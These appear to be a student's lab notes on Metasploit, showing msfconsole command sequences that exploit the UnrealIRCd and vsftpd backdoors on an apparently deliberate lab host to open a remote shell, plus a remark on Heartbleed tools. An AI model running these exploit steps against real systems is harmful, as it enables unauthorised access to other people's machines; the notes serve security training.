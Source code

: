 #Metasploit


metasploit can be used to: 
- create trojan horses
- run attacks


https://docs.metasploit.com


https://www.youtube.com/watch?v=oBAC5UfalC8


### Example attack: Remote shell via IRC vulnerability 
From the Nessus scan i know that iloveshells.vm.vuln.land has a critical vulnerability that allows remote shell execution via IRC. To exploit this, i did the following. 
- `msfconsole` start it from console (now we can enter specific commands)
- `search irc` -> will show exploits (because the got "exploits" in their path/name) 
    - found unrealRDC 
- `use exploit/unix/irc/unreal_ircd_3281_backdoor` 
- `set RHOSTS iloveshells.vm.vuln.land` 
- `set payload payload/cmd/unix/bind_perl`
- `exploit`

 works :-)  we got our shell and can now run bash commands. Maybe it is because I don't know linux bash not very well (or metasploit, shell etc.) but I cannot really navigate in the folder. "cd .." doesn't seem to work to explore the file system. However, i can still do it via `ls / -al` to see the root dir and from there I coud use cat or pipes etc. to explore the system. 

(taken from exercise Gaining access 2 )

### Example attack on FTP vulnerability (see video)

- `msfconsole` start it from console (now we can enter specific commands)
- `search exploits` -> will show exploits (because the got "exploits" in their path/name) 
- `search vsftp`  -> search for exploit that has "vsftp" in its path/name
- `use exploit/unix/ftp/vsftpd_234_backdoor` use/run specific exploit (full path) > command promt will change (now can enter commands for that particular exploit)
    - `options` -> exists for every exploit
    - `set RHOSTS iloveshells.vm.vuln.land`  to set server to be attacked for the vsftpd exploit
        - you can run options again to see if it appears in options now
    - `show payloads` -> will show payloads that are available for this server (if there is only one it will automatically choose the only one available)$
    - `exploit` -> run/start acutal exploit (if there is only one exploit there we can leave out the payload)
        - with this exploit (vsftpd) a shell is now open (other exploits will provide different feedback) and we can now run commands on this shell which are executed on iloveshells.vm.vuln.land

(taken from video: https://www.youtube.com/watch?v=oBAC5UfalC8   )


### Varia/Leftovers

Heartbleed bug: metasploit is less reliable than "Heartleech" -> so dont use Metasploit for this
